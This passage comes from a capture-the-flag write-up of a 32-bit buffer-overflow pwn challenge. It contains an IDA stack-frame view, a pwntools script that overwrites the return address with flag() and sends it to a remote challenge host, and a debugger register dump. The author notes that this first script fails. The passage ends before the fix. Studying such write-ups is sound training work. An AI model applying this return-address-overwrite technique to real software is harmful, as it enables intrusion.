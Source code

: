 Since we know that the offset to control the `EIP` is 188, we can build our exploit! Here's the step.

1. Overflow and overwrite the `EIP` to the address of `flag()`.
2. Concat the ROP Chain with the value of a1 and a1, which is 0xDEADBEEF and 0xC0DED00D.
3. Pwned.

```txt
-0000000000000010                 db ? ; undefined
-000000000000000F                 db ? ; undefined
-000000000000000E                 db ? ; undefined
-000000000000000D                 db ? ; undefined
-000000000000000C stream          dd ?                    ; offset
-0000000000000008                 db ? ; undefined
-0000000000000007                 db ? ; undefined
-0000000000000006                 db ? ; undefined
-0000000000000005                 db ? ; undefined
-0000000000000004 var_4           dd ?
+0000000000000000  s              db 4 dup(?)
+0000000000000004  r              db 4 dup(?)
+0000000000000008 arg_0           dd ?
+000000000000000C arg_4           dd ?
+0000000000000010
+0000000000000010 ; end of stack variables
```

By this stack frame view of `flag()` from IDA, we can see that when we overflow the `var_4` and `s`, we can get to the `r`, which is the return address. Furthermore, once we overflow the return address, it comes to `arg_0` & `arg_4`, which are a1 & a2. So I write the exploit like this.

```python
from pwn import *

offset = 188
flag_addr = 0x080491E2
payload = b"A" * offset + p32(flag_addr) + p32(0xDEADBEEF) + p32(0xC0DED00D)

r = remote("94.237.53.53", 56739)
r.sendline(payload)
r.interactive()
```

But this didn't work. It got EOF and didn't receive the flag. After searching on the web, I found [this article](https://github.com/jojoCode123/IosifOS/blob/master/hackthebox/challenges/pwn/you-know-0xdiablos.md) somehow explain the issue here. Although I cannot 100% understand the thing in this article, I still find the issue using my own way (if something wrong please tell me in the comments thx).

If we set the ROP chain like `b"A" * offset + p32(flag_addr) + p32(0xDEADBEEF) + p32(0xC0DED00D)`, the `0xDEADBEEF` won't be the value of `a1`, instead, it will be filled in the `ESP`. For example, I use cyclic 300 to create the pattern and check the value of the registers.

```bash
─────────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]──────────────────────────────────────────────
*EAX  0x12d
*EBX  0x62616175 ('uaab')
*ECX  0xf7e258a0 (_IO_stdfile_1_lock) ◂— 0x0
 EDX  0x0
*EDI  0xf7ffcb80 (_rtld_global_ro) ◂— 0x0
*ESI  0x8049330 (__libc_csu_init) ◂— push ebp
*EBP  0x62616176 ('vaab')
*ESP  0xffffcfb0 ◂— 'xaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaac'
*EIP  0x62616177 ('waab')
───────────────────────────────────────────────────────[ DISASM / i386 / set emulate on ]────────────────────────────────────────────────────────
```
